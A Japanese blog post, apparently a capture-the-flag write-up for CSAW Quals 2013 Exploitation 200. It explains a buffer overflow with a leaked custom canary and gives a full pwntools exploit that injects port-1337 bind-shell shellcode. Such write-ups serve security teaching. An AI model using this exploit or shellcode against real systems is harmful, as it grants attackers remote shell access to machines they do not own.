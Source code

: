 ```yaml
---
layout: post
redirect_from:
  - /writeup/ctf/2013/csaw-quals-2013-exploit2/
  - /blog/2016/01/13/csaw-quals-2013-exploit2/
date: 2016-01-13T01:21:13+09:00
tags: [ "ctf", "writeup", "pwn", "csaw-ctf", "shellcode", "port-bind", "buffer-overflow" ]
---
```


# CSAW Quals CTF 2013: Exploitation 200

## [Exploitation 200](https://github.com/ctfs/write-ups-2013/tree/master/csaw-quals-2013/exploitation/exploit2-200)

>   nc 128.238.66.212 31338  
>   [exploit2]()

与えられるバイナリは`0.0.0.0:31338`にsocketを開くので、これに接続する。
応答の先頭には変な文字が出力されている。

``` sh
$ ./exploit2 &
[2] 9327
$ nc localhost 31338 | xxd
Got a connection from 127.0.0.1 on port 34126
00000000: cc30 c6ff fbb0 4102 5765 6c63 6f6d 6520  .0....A.Welcome 
00000010: 746f 2043 5341 5720 4354 462e 2020 4578  to CSAW CTF.  Ex
00000020: 706c 6f69 7461 7469 6f6e 2032 2077 696c  ploitation 2 wil
00000030: 6c20 6265 2061 206c 6974 746c 6520 6861  l be a little ha
00000040: 7264 6572 2074 6869 7320 7965 6172 2e20  rder this year. 
00000050: 2049 6e73 6572 7420 796f 7572 2065 7870   Insert your exp

00000060: 6c6f 6974 2068 6572 653a 00              loit here:.
```

逆アセンブルして読むと以下が分かる。

-   中でforkしている
-   buffer overflowがある
-   canaryがいる (gccによるものでない、自前実装)
-   出力の先頭4byteはbufferへのpointer
-   次の4byteはcanaryの値

shellに繋がるportを開くshellcodeを投げ込めばよいようだ。

```
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools

context.log_level = 'debug'
p = remote('0.0.0.0', 31338)

buf = u32(p.recv(4))
canary = u32(p.recv(4))

# http://shell-storm.org/shellcode/files/shellcode-882.php
# Shell Bind TCP Shellcode Port 1337
shellcode = "\x6a\x66\x58\x6a\x01\x5b\x31\xf6\x56\x53\x6a\x02\x89\xe1\xcd\x80\x5f\x97\x93\xb0\x66\x56\x66\x68\x05\x39\x66\x53\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\xb0\x66\xb3\x04\x56\x57\x89\xe1\xcd\x80\xb0\x66\x43\x56\x56\x57\x89\xe1\xcd\x80\x59\x59\xb1\x02\x93\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x41\x89\xca\xcd\x80"

payload = ''
payload += shellcode   # ebp - 0x80c
payload += 'A' * (0x800 - len(shellcode))
payload += p32(canary) # ebp - 0xc
payload += 'A' * 4     # ebp - 0x8, ebx
payload += 'A' * 4     # ebp - 0x4, edi
payload += 'A' * 4     # ebp, ebp
payload += p32(buf)    # ret
payload += 'A' * (0x1000 - len(payload))
p.send(payload)
```
